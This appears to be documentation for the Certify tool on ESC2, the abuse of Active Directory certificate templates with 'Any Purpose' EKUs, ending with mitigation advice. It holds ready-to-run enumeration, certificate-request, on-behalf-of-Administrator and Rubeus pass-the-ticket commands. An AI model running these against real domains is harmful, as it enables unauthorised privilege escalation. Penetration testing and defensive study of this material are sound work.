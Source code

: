 ```yaml
---
title: 'ESC2 - Misconfigured Any Purpose Templates'
description: 'Exploit certificate templates with overly broad Extended Key Usages (Any Purpose EKU) to bypass certificate restrictions.'
icon: 'key'
sidebarTitle: 'ESC2'
---
```


ESC2 is a misconfiguration in Active Directory Certificate Services (AD CS), which stems from excessively broad Extended Key Usages (EKUs). Specifically, if a certificate template has been configured with the `Any Purpose` (`2.5.29.37.0`) EKU or as a `Subordinate CA` (No EKUs), the certificate can be used in place of any other EKU without restrictions.

<Info>
This vulnerability allows certificates to be used for any purpose, effectively bypassing EKU restrictions and enabling various attack scenarios.
</Info>

## Vulnerability Criteria

The following criteria comprise an ESC2 vulnerability:

<Accordion title="Enterprise CA Enrollment Rights">
The enterprise CA grants enrollment rights to the attacker-controlled user. Otherwise, the user would be unable to request any certificates from the CA.
</Accordion>

<Accordion title="Template Enrollment Rights">
The certificate template grants enrollment rights to the attacker-controlled user. Otherwise, the user would be unable to request certificates based on the specific template.
</Accordion>

<Accordion title="Manager Approval Disabled">
The "manager approval" feature is disabled for the certificate template. Otherwise, a "CA Manager" would have to manually review and approve the certificate request.
</Accordion>

<Accordion title="Authorized Signature Disabled">
The "authorized signature" feature is disabled for the certificate template. Otherwise, an enrollment agent would need to sign the certificate request on behalf of the requester.
</Accordion>

<Accordion title="Unrestricted EKU">
The certificate template defines an Extended Key Usage (EKU) that has no restrictions:
- `Any Purpose` (`2.5.29.37.0`)
- `Subordinate CA` (No EKUs)
</Accordion>

## Enumeration

We can search for certificate templates with these conditions using the `enum-templates --filter-vulnerable` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash PowerShell
Certify.exe enum-templates --filter-enabled --filter-vulnerable --hide-admins
```

```bash Command Prompt
Certify.exe enum-templates --filter-enabled --filter-vulnerable --hide-admins
```
</CodeGroup>

<Tip>
Look for templates with "Any Purpose" EKU or Subordinate CA configurations in the output.
</Tip>

```text Sample Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Listing info about the enterprise certificate authority 'CORP-CA01-CA'

    ...

[*] Enabled certificate templates found using the current filter parameters:

    Template Name                         : CustomAnyPurpose
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
+   Manager Approval Required             : False
+   Authorized Signatures Required        : 0
+   Extended Key Usage                    : Any Purpose
    Certificate Application Policies      : Any Purpose
    Vulnerabilities
+     ESC2                                : The template has the 'Any Purpose' EKU.
    Permissions
      Enrollment Permissions
+       Enrollment Rights           : CORP\Domain Users               S-1-5-21-976219687-1556195986-4104514715-513
      Object Control Permissions

Certify completed in 00:00:00.6948033
```

## Exploitation

Since the certificate can be used for any purpose, it is possible to use it as a `Certificate Request Agent` (`Enrollment Agent`) and mimic the abuse scenario for [ESC3](./esc3-misconfigured-certificate-request-agent).

<Warning>
ESC2 certificates can be used for multiple attack vectors due to their unrestricted nature.
</Warning>

### Attack Scenarios

<Card title="Certificate Request Agent Abuse" icon="user-shield">
The main difference between ESC2 and ESC3 is that the EKUs for the `Enrollment Agent` certificates are different (`Any Purpose` / `Subordinate CA` vs `Certificate Request Agent`). While both allow enrollment on-behalf-of other users for any schema version 1 template, they require their own EKU to be present in the `Required Application Policies` for a schema version 2 (or above) template.
</Card>

### Certificate Request

<CodeGroup>
```bash Basic Request
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomAnyPurpose
```

```bash Specific User Context
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomAnyPurpose --subject "CN=attackeruser,OU=Users,DC=corp,DC=local"
```
</CodeGroup>

### Usage as Enrollment Agent

Once you have obtained a certificate with the "Any Purpose" EKU, you can use it to request certificates on behalf of other users by leveraging it as an enrollment agent certificate.

<CodeGroup>
```bash Request for Another User
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template User --on-behalf-of CORP\Administrator --enrollment-cert [BASE64_CERT] --enrollment-cert-pw [PASSWORD]
```

```bash Alternative Approach
# Use the Any Purpose certificate for client authentication
Rubeus.exe asktgt /user:targetuser /certificate:[ANY_PURPOSE_CERT] /ptt
```
</CodeGroup>

## Relationship to Other ESCs

<Card title="ESC3 Connection" icon="link">
ESC2 certificates with "Any Purpose" EKU can be used in the same way as ESC3 Certificate Request Agent certificates, making them functionally equivalent for enrollment agent attacks.
</Card>

## Mitigation

<Card title="Defense Recommendations" icon="shield-check">
- Replace "Any Purpose" EKU with specific, required EKUs
- Avoid using Subordinate CA templates for end-user certificates
- Implement proper template access controls
- Regular auditing of certificate template EKU configurations
- Consider using Application Policies instead of EKUs for more granular control
</Card>

## References

- [Certified Pre-Owned: Abusing Active Directory Certificate Services](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [Microsoft Certificate Template EKU Documentation](https://docs.microsoft.com/en-us/windows/win32/seccertenroll/about-certificate-template-eku)